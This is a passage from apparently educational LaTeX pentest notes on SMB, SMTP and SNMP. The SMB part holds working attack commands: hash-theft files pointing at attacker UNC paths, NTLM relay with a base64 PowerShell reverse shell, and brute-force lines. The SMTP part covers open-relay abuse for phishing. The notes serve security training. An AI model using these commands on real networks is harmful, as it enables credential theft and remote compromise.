smbclient -U USER //IP/Share -c 'allinfo "ADS_FILE"'
get "ADS_FILE:PASSWORD:$DATA"
\end{verbatim}


\subsection{nmap}

Usefull scripts (\verb+--script smb-*+):
\begin{itemize}
\item nbstat
\item smb-enum-shares
\item smb-protocols
\item smb2-capabilities
\item smb2-security-mode
\item smb2-time
\item smb-os-discovery
\end{itemize}

For vulnerabilities testing \verb+ --script smb-vuln*+

\subsection{Metasploit}
\begin{verbatim}
search type:exploit platform:windows target:2008 smb
# version
use auxiliary/scanner/smb/smb_version
# shares enum
use auxiliary/scanner/smb/smb_enumshares
# user enum
use auxiliary/scanner/smb/smb_lookupsid
#
use auxiliary/scanner/smb/smb_enumusers
\end{verbatim}

\subsection{rpcclient}
rpcclient~\ref{tool:rpcclient}offers many different requests on the SMB server
to get information. 


\begin{verbatim}
rpcclient -U "" 10.129.14.128
netshareenumall



for i in $(seq 500 1100); \
    do rpcclient -N -U "" IP -c "queryuser 0x$(printf '%x\n' $i)" \
    | grep "User Name\|user_rid\|group_rid" && echo "";done
\end{verbatim}

\subsection{CrackmapExec}
\verb+cme smb IP --shares -u '' -p ''+

\subsection{enum4linux}

\begin{verbatim}
# -a = all -u = login to prevent null session
enum4linux -a -u anonymous IP
enum4linux-ng IP  -A
enum4linux-ng IP  -S -u anonymous
\end{verbatim}

\subsection{nullinux}
Nullinux, using SMB, can list OS information, domain information, network shares, directories, and users. If the username and password are not specified in the command line arguments, then an anonymous login or null session is tried. Nullinux is a wrapper for Samba tools (smbclient and rpcclient) to list hosts using various techniques. 

\subsection{Impacket}

\subsubsection{Lookupsid}
\verb+python3 lookupsid.py DOMAIN/LOGIN:PASSWD@IP+

\subsubsection{samrdump}
\verb+python3 samrdump.py DOMAIN/LOGIN:PASSWD@IP+


\subsection{smb spider}
The smbspider program displays the contents of Windows shares.

\subsection{acccheck}
acccheck can verify the credentials of network folders.

\subsection{SMBMap}
SMBMap allows users to enumerate samba share drives across an entire domain and
even content download/upload.


\section{Man-in-the-middle attack on SMB Relays}

two technics:
\begin{itemize}
    \item capturing hashes and cracking them (impacket smbserver, responder)
    \item capturing the hashed and replaying them to another machine (
        impacket ntlmrelayx or Responder MultiRelay.py)
\end{itemize}


\subsection{Farming hash}
\label{smb:farming-hashes}

To learn more about harvesting NTLMv2 hashes, we can read the blog
\href{https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/}{Farming
for Red Teams: Harvesting NetNTLM from MDsec} which shows not only the use of
shortcuts but also other types of files that serve the same purpose.


\subsubsection{ntlm\_theft}

\href{https://github.com/Greenwolf/ntlm_theft}{ntlm\_theft}, a tool for generating multiple NTLMv2 hash theft files. It supports the option -g to choose the file type we want to generate or the keyword all to create all file types. We also need to set the option -s, which corresponds to the IP address of our SMB hash capture server

\begin{verbatim}
 python3 ntlm_theft.py -g all -s 172.16.117.30 -f '@myfile'
\end{verbatim}



\subsubsection{SCF file attack}
\label{smb:scf}

It is not new that SCF (Shell Command Files) files can be used to perform a
limited set of operations such as showing the Windows desktop or opening a
Windows explorer. However a SCF file can be used to access a specific UNC path
which allows the penetration tester to build an attack. The code below can be
placed inside a text file which then needs to be planted into a network share.

\begin{verbatim}
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
\end{verbatim}

copy the file as \verb+@something.scf+

\subsubsection{LNK file attack}
To steal hashes using shared folders, we can create a shortcut and configure it
so that the icon that appears in the shortcut points to our fake shared folder.
Once the user enters the shared folder, it will try to look for the icon's
location, forcing the authentication against our shared folder.


with cme:
\begin{verbatim}
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! \
    -M slinky -o SERVER=10.10.14.33 NAME=important
\end{verbatim}


\subsubsection{WebDav Attacks}
The Windows service responsible for WebDav is the WebClient service; it is enabled by default on Windows workstations, unlike Windows Servers. Remember that even when the service is enabled by default on workstations, it may not run. 

 What makes this type of file useful for our purpose is that it can help us to force the remote computer to enable the WebClient service in case it is disabled and allows us, eventually, to force HTTP authentication

A \href{https://learn.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry}{.searchConnector-ms} file is a special file used to link the computer's search function to particular web services or databases. Like installing a new search engine to a computer, it allows one to quickly find information from that source without launching a web browser or additional software. What makes this type of file useful for our purpose is that it can help us to force the remote computer to enable the WebClient service in case it is disabled and allows us, eventually, to force HTTP authentication.


\begin{verbatim}
$ cat secret.searchConnector-ms

<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\10.10.15.39\secret/0001.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\10.10.15.39\secret</url>
    </simpleLocation>
</searchConnectorDescription>
\end{verbatim}


to perform the attack:
\begin{itemize}
    \item list check webdav
        \begin{verbatim}
crackmapexec smb 172.16.117.0/24 -u <login> -p <passwd> -M webdav
        \end{verbatim}
    \item try to force webclient to start
        \begin{verbatim}
crackmapexec smb <ip> -u <login> -p <passwd> \
    -M drop-sc -o URL=https://172.16.117.30/testing SHARE=smb \
    FILENAME=@secret
        \end{verbatim}
    \item check again webdav:
        \begin{verbatim}
crackmapexec smb 172.16.117.0/24 -u <login> -p <passwd> -M webdav
        \end{verbatim}
    \item coerce the client to perform an HTTP authentication:
        \begin{verbatim}
crackmapexec smb <ip> -u <login> -p <passwd> \
    -M slinky -o SERVER=NOAREALNAME@8008 NAME=important
        \end{verbatim}
    \item poison with responder (no http server):
    \item relay:
        \begin{verbatim}
ntlmrelayx.py -t ldap://<ip> -smb2support --no-smb-server --http-port 8008 \
    --no-da --no-acl --no-validate-privs --lootdir ldap_dump
        \end{verbatim}

\end{itemize}

To learn more about
the discovery of this method, we can read the blog post
\href{https://dtm.uk/exploring-search-connectors-and-library-files-on-windows/}{Exploring
search connectors and library files in Windows}.

\begin{verbatim}
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! \
    -M drop-sc -o URL=\\\\10.10.14.33\\secret SHARE=IT-Tools FILENAME=secret
\end{verbatim}





\subsection{Impacket smbserver}
\begin{verbatim}
smbserver.py -smb2support pwn_share ./
\end{verbatim}

\subsection{Impacket ntlmrelayx}

Create a PowerShell reverse shell using
\href{https://www.revshells.com/}{https://www.revshells.com/} with base64
    encoding
\begin{verbatim}
ntlmrelayx --no-http-server -smb2support -t IP -c \
    'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqA.. .'
\end{verbatim}

\subsection{Responder}
\begin{verbatim}
sudo responder -I INTERFACE -rPvf
\end{verbatim}

\subsection{Inveigh}

\subsection{Intercepter-ng}
Intercepter-NG is a multifunctional network toolkit for IT professionals of
various types. The main goal is to restore interesting data from the network
stream and perform various kinds of man-in-the-middle attacks (MiTM). In
addition, the program allows you to detect ARP spoofing (can be used to detect
MiTM), identify and exploit some types of vulnerabilities, brute-force login
credentials for network services. The program can work both with live traffic
flow and analyze files with captured traffic to detect files and credentials.

SMB related features:
\begin{itemize}
    \item Reconstructing files from SMB
    \item SMB relay
    \item SMB Hijack (interception)
\end{itemize}

\subsection{Ettercap. Ettercap Plugins}

Ettercap is a comprehensive man-in-the-middle (MiTM) attack kit. It is able to
sniff live connections, filter on the fly the contents of the transmitted data
and many other tricks. It supports active and passive tampering of many
protocols and includes many functions for network and host analysis.

Among the Ettercap plugins, there are two plugins aimed at attacking the SMB
protocol. 

 \subsubsection{smb\_clear}

It forces the client to send smb password in clear text distorting protocol
negotiations. You must be in the middle of the connection to use it
successfully. It hooks the smb dissector, so you will keep it active. If you
use it against a Windows client, then the result is unlikely to be successful.
Try it against *nix smbclient.

\subsubsection{smb\_down}

It forces the client not to use NTLM2 password exchange during smb
authentication. Thus, hashes are obtained that can easily be cracked in LC4.
You must be in the middle of the connection to use it successfully. It hooks
the smb dissector, so you will keep it active.

\section{Brute-force attack}
\subsection{patator}
\begin{verbatim}
/patator.py smb_login host=iIP user=FILE0 password=FILE1 0=LOGIN_FILE \
    1=PASSWD_FILE -x ignore:fgrep='STATUS_LOGON_FAILURE'
\end{verbatim}

\subsection{hydra}
\begin{verbatim}
hydra smb://IP -L LOGIN_FILE -P PASSWORD_FILE
\end{verbatim}

\subsection{Metasploit}
\verb+use auxiliary/scanner/smb/smb_login+

\section{Post exploitation tools}
\subsection{CrackMapExec}
CrackMapExec is an all-in-one tool for testing the Windows/Active Directory environment. It is inspired/based on previous developments, including, as a submodule, it includes the PowerSploit repository. 

The program can enumerate logged-in users and index SMB shared folders, perform
psexec-style attacks, automatic Mimikatz/Shellcode/DLL injections into memory
using Powershell, dumping \gls{win:NTDS.DIT} and more! 

\subsection{keimpx}


\section{Remote code execution}

RCE is enable by the use of MSRPC over SMB. Different
tehcniques exists such as deploying a service to the \verb+admin$+ share then
accessing the Windows Service Control Manager API and starting the service and
create a named pipes for sending commands.


tools to use:
\begin{itemize}
    \item SysInternals PsExec~\ref{tools:sysinternals:psexec}
    \item Impacket PSExec~\ref{tools:impacket:psexec}
    \item Impacket SMBExec~\ref{tools:impacket:smbexec}
    \item Impacket atexec~\ref{tools:impacket:atexec}
    \item CrackMapExec~\ref{tools:crackmapexec:smb:rce}
    \item Metasploit PsExec~\ref{tools:metasploit}
\end{itemize}


\section{links}

\href{https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-SMB2/%5bMS-SMB2%5d.pdf#%5B%7B%22num%22%3A920%2C%22gen%22%3A0%7D%2C%7B%22name%22%3A%22XYZ%22%7D%2C69%2C738%2C0%5D}{Protocol
V2 and V3}

\href{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/934c2faa-54af-4526-ac74-6a24d126724e}{Common Internet File System (CIFS) Protocol}

\href{https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf}{SMB
Access from Linux Cheat Sheet}

\chapter{SMTP: Simple Mail Transfer Protocol}

\section{Introduction}
The Simple Mail Transfer Protocol (SMTP) is a protocol for sending emails in an
IP network. It can be used between an email client and an outgoing mail server
or between two SMTP servers. SMTP is often combined with the IMAP or POP3
protocols, which can fetch emails and send emails. In principle, it is a
client-server-based protocol, although SMTP can be used between a client and a
server and between two SMTP servers. In this case, a server effectively acts as
a client.

The original SMTP protocol supported only unauthenticated unencrypted 7-bit
ASCII text communications, susceptible to trivial man-in-the-middle attack,
spoofing, and spamming, and requiring any binary data to be encoded to readable
text before transmission. Due to absence of a proper authentication mechanism,
by design every SMTP server was an open mail relay.

An {\bf open mail relay} is a SMTP server configured in such a way that it
allows anyone on the Internet to send e-mail through it, not just mail destined
to or originating from known users.

In November 1995, RFC 1869 defined {\bf Extended Simple Mail Transfer Protocol
    (ESMTP)}, which established a general structure for all existing and future
    extensions which aimed to add-in the features missing from the original
    SMTP. ESMTP defines consistent and manageable means by which ESMTP clients
    and servers can be identified and servers can indicate supported
    extensions. 

Message submission (RFC 2476) and
\href{https://en.wikipedia.org/wiki/SMTP_Authenticatio}{SMTP-AUTH
(RFC 2554)} were introduced in 1998
and 1999, both describing new trends in email delivery. Originally, SMTP
servers were typically internal to an organization, receiving mail for the
organization from the outside, and relaying messages from the organization to
the outside. But as time went on, SMTP servers ({\bf mail transfer agents MTA}), in
practice, were expanding their roles to become {\bf message submission agents
(MSA)}for {\bf Mail user agents (MUA)}, some of which were now relaying mail
from the outside of an organization. (e.g. a company executive wishes to send
email while on a trip using the corporate SMTP server.) 

A  {\bf MSA} is a computer program or software agent that receives electronic
mail messages from a mail user agent (MUA) and cooperates with a mail transfer
agent (MTA) for delivery of the mail. It uses ESMTP. both MTA and MSA functions
use port number 25, but the official port for MSAs is 587.The MTA accepts a
user's incoming mail, while the MSA accepts a user's outgoing mail. 

This issue, a consequence of the rapid expansion and popularity of the World
Wide Web, meant that SMTP had to include specific rules and methods for
relaying mail and authenticating users to prevent abuses such as relaying of
unsolicited email (spam). Work on message submission (RFC 2476) was originally
started because popular mail servers would often rewrite mail in an attempt to
fix problems in it, for example, adding a domain name to an unqualified
address. This behavior is helpful when the message being fixed is an initial
submission, but dangerous and harmful when the message originated elsewhere and
is being relayed. Cleanly separating mail into submission and relay was seen as
a way to permit and encourage rewriting submissions while prohibiting rewriting
relay. As spam became more prevalent, it was also seen as a way to provide
authorization for mail being sent out from an organization, as well as
traceability. This separation of relay and submission quickly became a
foundation for modern email security practices. 

As this protocol started out purely ASCII text-based, it did not deal well with
binary files, or characters in many non-English languages. Standards such as
Multipurpose Internet Mail Extensions (MIME) were developed to encode binary
files for transfer through SMTP. 

\subsection{Mail processing model}


\begin{figure}
  
\includegraphics[width=\linewidth]{network/smtp/images/SMTP-transfer-model.png}
  \caption{SMTP transfer model}
  \label{fig:smtp-transfer-model}
\end{figure}

Email is submitted by a MUA to a mail server MSA using SMTP on TCP port 587.
Most mailbox providers still allow submission on traditional port 25. The MSA
delivers the mail to its MTA. Often, these two agents are instances of the same
software launched with different options on the same machine. If processing is
on multiple machines, they transfer messages between each other using SMTP,
where each machine is configured to use the next machine as a smart host. Each
process is an MTA (an SMTP server) in its own right. 

The boundary MTA uses DNS to look up the MX (mail exchanger) record for the
recipient's domain. The MX record contains the name of the target MTA. Based on
the target host and other factors, the sending MTA selects a recipient server
and connects to it to complete the mail exchange.

Message transfer can occur in a single connection between two MTAs, or in a
series of hops through intermediary systems. A receiving SMTP server may be the
ultimate destination, an intermediate "relay" (that is, it stores and forwards
the message) or a "gateway" (that is, it may forward the message using some
protocol other than SMTP).

Once the final hop accepts the incoming message, it hands it to a {\bf mail
delivery agent (MDA)} for local delivery. An MDA saves messages in the relevant
mailbox format. As with sending, this reception can be done using one or
multiple computers, but in the diagram above the MDA is depicted as one box
near the mail exchanger box. An MDA may deliver messages directly to storage,
or forward them over a network using SMTP or other protocol such as
\href{https://en.wikipedia.org/wiki/Local_Mail_Transfer_Protocol}{Local Mail
Transfer Protocol (LMTP)}, a derivative of SMTP designed for this purpose.

SMTP defines message transport, not the message content. Thus, it defines the
mail envelope and its parameters, such as the envelope sender, but not the
header (except trace information) nor the body of the message itself. STD 10
and \href{https://datatracker.ietf.org/doc/html/rfc5321}{RFC 5321} define SMTP
(the envelope), while STD 11 and
\href{https://datatracker.ietf.org/doc/html/rfc5322}{RFC5322} define the
message (header and body), formally referred to as the Internet Message
Format.

\subsection{SMTP commands and example}

The sending and communication are also done by special commands that cause the
SMTP server to do what the user requires.
\begin{itemize}
    \item Basic SMTP commands:
        \begin{itemize}
            \item \verb+HELO domain+: logs in with its computer name and thus starts
    the session.
            \item \verb+MAIL FROM+: names the email sender.
            \item \verb+RCPT TO+: names the email recipient.
            \item \verb+DATA+: initiates the transmission of the email.
            \item \verb+RSET+: aborts the initiated transmission but keeps the connection between client and server.
            \item \verb+NOOP+: requests a response from the server to prevent disconnection due to time-out.
            \item \verb+QUIT+: terminates the session.
        \end{itemize}
    \item Extended SMTP (ESMTP) Commands:
        \begin{itemize}
            \item \verb+EHLO+: initiates the SMTP communication
            \item \verb+AUTH method+: used to authenticate the client to the
                server (\verb+PLAIN+, \verb+NTLM+, \verb+CRAM-MD5+,
                \verb+DIGEST-MD5+,\ldots)
            \item \verb+VRFY+: checks if a mailbox is available for message transfer.
            \item \verb+EXPN+: checks if a mailbox is available for messaging with this command.
            \item \verb+STARTTLS+: 
            \item \verb+HELP+ 	Help.
        \end{itemize}
\end{itemize}

\begin{verbatim}
telnet IP 25
EHLO inlanefreight.htb

250-mail1.inlanefreight.htb
250-PIPELINING
250-SIZE 10240000
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING


MAIL FROM: <cry0l1t3@inlanefreight.htb>
250 2.1.0 Ok
RCPT TO: <mrb3n@inlanefreight.htb> NOTIFY=success,failure
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
From: <cry0l1t3@inlanefreight.htb>
To: <mrb3n@inlanefreight.htb>
Subject: DB
Date: Tue, 28 Sept 2021 16:32:51 +0200
Hey man, I am trying to access our XY-DB but the creds don't work.
Did you make any changes there?
.

250 2.0.0 Ok: queued as 6E1CF1681AB
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
\end{verbatim}


\subsection{SMTP Extensions}
\subsection{Extension discovery mechanism}

Clients learn a server's supported options by using the \verb+EHLO+ greeting, as
exemplified below, instead of the original \verb+HELO+. Clients fall back to
\verb+HELO+ only if the server does not support EHLO greeting.

Modern clients may use the ESMTP extension keyword SIZE to query the server for
the maximum message size that will be accepted. Older clients and servers may
try to transfer excessively sized messages that will be rejected after
consuming network resources, including connect time to network links that is
paid by the minute.

Users can manually determine in advance the maximum size accepted by ESMTP
servers. The client replaces the HELO command with the EHLO command.

\begin{verbatim}
$ telnet 10.10.11.175 25
Trying 10.10.11.175...
Connected to 10.10.11.175.
Escape character is '^]'.
220 mail.outdated.htb ESMTP
EHLO outdated.htb
250-mail.outdated.htb
250-SIZE 20480000
250-AUTH LOGIN
250 HELP
\end{verbatim}

\subsubsection{STARTTLS or "Opportunistic TLS}
The STARTTLS extensions enables supporting SMTP servers to notify connecting
clients that it supports TLS encrypted communication and offers the opportunity
for clients to upgrade their connection by sending the STARTTLS command.
Servers supporting the extension do not inherently gain any security benefits
from its implementation on its own, as upgrading to a TLS encrypted session is
dependent on the connecting client deciding to exercise this option, hence the
term opportunistic TLS.

By sending {\bf STARTTLS}  after the {\bf EHLO command} the communication is
switched on port  465.

\begin{verbatim}
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls 
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
\end{verbatim}

\section{Dangerous Settings}
To prevent the sent emails from being filtered by spam filters and not reaching
the recipient, the sender can use a relay server that the recipient trusts. It
is an SMTP server that is known and verified by all others. As a rule, the
sender must authenticate himself to the relay server before using it.

Often, administrators have no overview of which IP ranges they have to allow.
This results in a misconfiguration of the SMTP server that we will still often
find in external and internal penetration tests. Therefore, they allow all IP
addresses not to cause errors in the email traffic and thus not to disturb or
unintentionally interrupt the communication with potential and current
customers.


\section{Footprint / enumeration}

\subsection{nmap}

\begin{verbatim}
sudo nmap -p25 --script smtp-commands -v
sudo nmap -p25 --script smtp-open-relay -v
sudo nmap -p25 --script smtp-enum-users -v
\end{verbatim}

\begin{itemize}
    \item
        \href{https://nmap.org/nsedoc/scripts/smtp-enum-users.html}{smtp-enum-users.nse}:
        attempts to enumerate the users on a SMTP server by issuing the VRFY,
        EXPN or RCPT TO commands. Arguments:
        \begin{itemize}
            \item smtp.domain:
            \item smtp-enum-users.methods
            \item passdb, unpwdb.passlimit, unpwdb.timelimit, unpwdb.userlimit,
                userdb: See the documentation for the
                \href{https://nmap.org/nsedoc/lib/unpwdb.html#script-args}{unpwdb
                library}.
            \item smbdomain, smbhash, smbnoguest, smbpassword, smbtype,
                smbusername: See the documentation for the
                \href{https://nmap.org/nsedoc/lib/smbauth.html#script-args}{smbauth} library.
        \end{itemize}
    \item \verb+smtp-open-relay+ identify the target SMTP server as an open
        relay using 16 different tests.
\end{itemize}

\subsection{metasploit}
\begin{verbatim}
use auxiliary/scanner/smtp/smtp_enum
use auxiliary/scanner/smtp/smtp_relay
\end{verbatim}

\subsection{smtp-user-enum}
s 3 methods of user enumeration.The commands that this tool is using in order
to verify usernames are the EXPN,VRFY and RCPT.It can also support single
username enumeration and multiple by checking through a .txt list.

The mail header is the carrier of a large amount of interesting information in
an email. Among other things, it provides information about the sender and
recipient, the time of sending and arrival, the stations the email passed on
its way, the content and format of the message, and the sender and recipient.

Some of this information is mandatory, such as sender information and when the
email was created. Other information is optional. However, the email header
does not contain any information necessary for technical delivery. It is
transmitted as part of the transmission protocol. Both sender and recipient can
access the header of an email, although it is not visible at first glance. The
structure of an email header is defined by
\href{https://datatracker.ietf.org/doc/html/rfc5322}{RFC5322}.



\section{Open Relay}
An open relay is a Simple Transfer Mail Protocol server, which is
improperly configured and allows an unauthenticated email relay. Messaging
servers that are accidentally or intentionally configured as open relays allow
mail from any source to be transparently re-routed through the open relay
server. This behavior masks the source of the messages and makes it look like
the mail originated from the open relay server.

From an attacker's standpoint, we can abuse this for phishing by sending emails
as non-existing users or spoofing someone else's email. For example, imagine we
are targeting an enterprise with an open relay mail server, and we identify
they use a specific email address to send notifications to their employees. We
can send a similar email using the same address and add our phishing link with
this information. With the nmap smtp-open-relay script, we can identify if an
SMTP port allows an open relay.

\begin{verbatim}
nmap -p25 -Pn --script smtp-open-relay 
\end{verbatim}

\section{Mail spoofing}
Most of this section was extracted from the book {\bf Network Security
Assessment 3rd Edition.}

SMTP messages are easily spoofed, and so organizations use SPF, DKIM, and DMARC
features to prevent parties from sending unauthorised email.

A complete guide of these countermeasures can be found in
\url{https://seanthegeek.net/459/demystifying-dmarc/}

\subsection{Countermeasures}

\subsubsection{SPF}
Sender Policy Framework (SPF) provides a mechanism that allows MTAs to check if
a host sending an email is authorized. Then, the organisations can define a
list of authorised mail servers and the MTAs can query for this lists to check
if the email was spoofed or not. In order to define IP addresses/ranges,
domains and others that are allowed to send email on behalf a domain name,
different "Mechanism" cam appear in the SPF registry.

To check the SPF of a domain you can use online tools like:
\url{https://www.kitterman.com/spf/validate.html}

\begin{verbatim}
drill secure-startup.com txt
\end{verbatim}

\subsubsection{DKIM}
DomainKeys Identified Mail (DKIM) is a mechanism by which outbound email is
signed and validated by foreign MTAs upon retrieving a domain’s public key via
DNS. The DKIM public key is held within a TXT record for a domain; however, you
must know both the selector and domain name to retrieve it.

Then, to ask for the key you need the domain name and the selector of the mail
from the mail header 
\begin{verbatim}
dig 20120113._domainkey.gmail.com TXT | grep p=
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCg
KCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
\end{verbatim}

\subsubsection{DMARC}
Domain-based Message Authentication, Reporting \& Conformance (DMARC) is a
method of mail authentication that expands upon SPF and DKIM. Policies instruct
mail servers how to process email for a given domain and report upon actions
performed.

\begin{verbatim}
drill _dmarc.secure-startup.com txt
\end{verbatim}


\subsection{Tools}

Check for SPF and DMARC misconfigurations:
\url{https://github.com/serain/mailspoof}

Automatically get SPF and DMARC configs:
\url{https://pypi.org/project/checkdmarc/}

You can attack some characteristics of mail clients to make the user think that
the mail is coming from any address, more info:
\url{https://www.mailsploit.com/index}

\url{https://emkei.cz/} can be used to send you an email spoofing an address
and check if reaches you email.

\chapter{SNMP: Simple Network Management Protocol}
\section{Introduction}
\href{https://datatracker.ietf.org/doc/html/rfc1157}{SNMP}  was created to
monitor network devices. In addition, this protocol can also be used to handle
configuration tasks and change settings remotely. it is a protocol for
monitoring and managing network devices. 

In addition to the pure exchange of information, SNMP also transmits control
commands using agents ({\bf UDP/161}).

While in classical communication, it is always the client who actively requests
information from the server, SNMP also enables the use of so-called traps over
{\bf UDP/162}. These are data packets sent from the SNMP server to the client
without being explicitly requested. If a device is configured accordingly, an
SNMP trap is sent to the client once a specific event occurs on the
server-side. 

For the SNMP client and server to exchange the respective values, the available
SNMP objects must have unique addresses known on both sides. This addressing
mechanism is an absolute prerequisite for successfully transmitting data and
network monitoring using SNMP.

\subsection{MIB}

To ensure that SNMP access works across manufacturers and with different
client-server combinations, the {\bf Management Information Base (MIB)} was
created. it's an independent format for storing device information. A MIB is a
text file in which all queryable SNMP objects of a device are listed in a
standardized tree hierarchy. It contains at least one {\bf Object Identifier
(OID)}, which, in addition to the necessary unique address and a name, also
provides information about the type, access rights, and a description of the
respective object. MIB files are written in the {\bf Abstract Syntax Notation
One (ASN.1)} based ASCII text format. The MIBs do not contain data, but they
explain where to find which information and what it looks like, which returns
values for the specific OID, or which data type is used.

\subsection{OID}

OIDs uniquely identify managed objects in a MIB hierarchy. 

An OID represents a node in a hierarchical namespace. A sequence of numbers
uniquely identifies each node, allowing the node's position in the tree to be
determined. The longer the chain, the more specific the information. Many nodes
in the OID tree contain nothing except references to those below them. The OIDs
consist of integers and are usually concatenated by dot notation. We can look
up many MIBs for the associated OIDs in the
\href{https://www.alvestrand.no/objectid/}{Object Identifier Registry}.

OID meaning cat be checked using \url{http://oid-info.com/get/1.3.6}

There are some {\bf well-known OIDs} like the ones inside
\href{http://oid-info.com/get/1.3.6.1.2.1}{1.3.6.1.2.1} that references MIB-2
defined Simple Network Management Protocol (SNMP) variables. And from the OIDs
pending from this one you can obtain some interesting host data (system data,
network data, processes data...)

\subsection{Community Strings}
An SNMP community string is a means of accessing statistics stored within a
device. 


it comprises the user credential—ID or password—delivered alongside a GET
request. A GET request, as its name suggests, is used to request data from a
specific resource and is one of the most commonly utilized HTTP methods.

With the appropriate community string, a device is able to access data stored
on other devices. If the community string is incorrect, the device will
disregard the GET request. This is why it’s important for the SNMP community
string to be correct.

A device will usually feature a default SNMP community string, which is
dependent on the vendor responsible for the device. Some vendors use the word
{\bf public} as the default.

There are three types of community string:
\begin{itemize}
    \item Read-only – The read-only community string enables a device to
        extract read-only data from another device.
    \item Read-write – The read-write community string is used to extract data
        and alter device configurations.
    \item SNMP trap – The SNMP trap community string is used when an SNMP trap
        is sent by a device.
\end{itemize}


Community strings can be seen as passwords that are used to determine whether
the requested information can be viewed or not. It is important to note that
many organizations are still using SNMPv2, as the transition to SNMPv3 can be
very complex, but the services still need to remain active. This causes many
administrators a great deal of concern and creates some problems they are keen
to avoid. The lack of knowledge about how the information can be obtained and
how we as attackers use it makes the administrators' approach seem
inexplicable. At the same time, the lack of encryption of the data sent is also
a problem. Because every time the community strings are sent over the network,
they can be intercepted and read.

\subsection{SNMP and Community String Variations}
 The three most commonly used versions are SNMPv1, SNMPv2c, and SNMPv3. Each of
 these versions has a slightly different approach to community strings, as
 outlined below:
\begin{itemize}
     \item SNMPv1: uses community strings to restrict access. it utilized
         read-write and read-only community strings, but the data transmitted
         was unencrypted. This meant it was vulnerable to attacks and
         exploitation.
     \item SNMPv2c (c stands for community-based):  delivers data encryptions,
         but it uses data types, such as 64-bit counters, not present in
         SNMPv1. Consequently, it’s slightly more secure than SNMPv1, but not
         as secure as SNMPv3. SNMPv2c uses two types of community strings:
         \begin{itemize}
            \item read-only: allows access to management information base
                (MIB) objects on a read-only basis. MIB objects comprise the
                data transmitted between an SNMP agent and an SNMP manager.
            \item read-write: lets users access and interact with these MIB
                objects, meaning they can edit configurations of SNMP-enabled
                devices by logging into the SNMP manager. These community
                strings make you vulnerable because they allow attackers to
                remotely interfere with your system.
         \end{itemize}
    \item SNMPv3: the most secure version of SNMP, allowing users to fully
        encrypt transmissions, so they can’t be accessed or exploited by
        external attackers.
\end{itemize}


\section{Configuration and dangerous settings}
\verb+/etc/snmp/snmpd.conf+

\begin{itemize}
        \item \verb+rwuser noauth+: 	Provides access to the full OID tree without
            authentication.
        \item \verb+rwcommunity <community string> <IPv4 address>+:
            Provides access to the full OID tree regardless of where the
            requests were sent from.
        \item \verb+rwcommunity6 <community string> <IPv6 address>+ 	Same
            access as with rwcommunity with the difference of using IPv6.
\end{itemize}

\section{Footprint and enumeration}


\subsection{nmap}
